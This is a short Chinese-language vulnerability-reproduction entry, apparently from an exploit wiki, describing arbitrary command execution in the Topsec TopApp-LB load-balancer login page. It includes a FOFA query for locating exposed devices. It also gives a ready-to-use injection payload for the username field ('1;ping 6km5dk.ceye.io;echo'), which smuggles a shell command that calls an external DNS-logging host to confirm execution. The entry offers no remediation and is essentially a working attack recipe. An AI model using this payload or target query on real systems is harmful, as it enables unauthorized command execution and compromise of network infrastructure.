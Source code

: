 # 天融信负载均衡TopApp-LB命令执行漏洞

## 漏洞描述

天融信负载均衡TopApp-LB系统存在任意命令执行

## 影响版本

天融信负载均衡TopApp-LB

## FOFA

> [!NOTE]
>
> app="天融信-TopApp-LB-负载均衡系统"

## 漏洞复现

登录界面中存在命令执行

账号:**1;ping 6km5dk.ceye.io;echo**

密码:**任意**

![](http://wikioss.peiqi.tech/vuln/trx-3.png)

成功收到请求

![](http://wikioss.peiqi.tech/vuln/trx-4.png)